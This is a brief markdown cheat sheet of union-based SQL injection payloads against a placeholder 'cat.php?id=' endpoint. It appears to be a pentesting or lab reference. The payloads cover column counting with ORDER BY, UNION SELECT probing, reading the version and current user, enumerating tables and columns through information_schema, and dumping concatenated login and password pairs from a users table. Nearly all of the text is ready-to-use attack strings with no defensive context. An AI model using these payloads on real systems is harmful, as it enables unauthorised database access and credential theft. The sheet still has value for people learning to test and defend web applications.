

# SQLi examples

## Enumeration

* math operation

`url/cat.php?id=4-1` gives id=3

* Find columns using ORDER BY

`cat.php?id=2 ORDER BY 4`

* Find columns using UNION statement

[http://vulnerable.site/cat.php?id=2  UNION SELECT 1,2,3,4](http://vulnerable.site/cat.php?id=2%20%20UNION%20SELECT%201,2,3,4)

* Get version

`@@version`

* Get current user 

`user()`

* Get tables names

`url/cat.php?id=2%20 UNION SELECT 1,table_name,3,4 FROM information_schema.tables`

* Get user and password from users tables \(concat both together\)

We cannot use \* ...

Column\_name from information\_schema.columns

`url/cat.php?id=2%20 UNION SELECT 1,column_name,3,4 FROM information_schema.columns`

`url/cat.php?id=2%20 UNION SELECT 1,concat(login,":",password),3,4 FROM users`

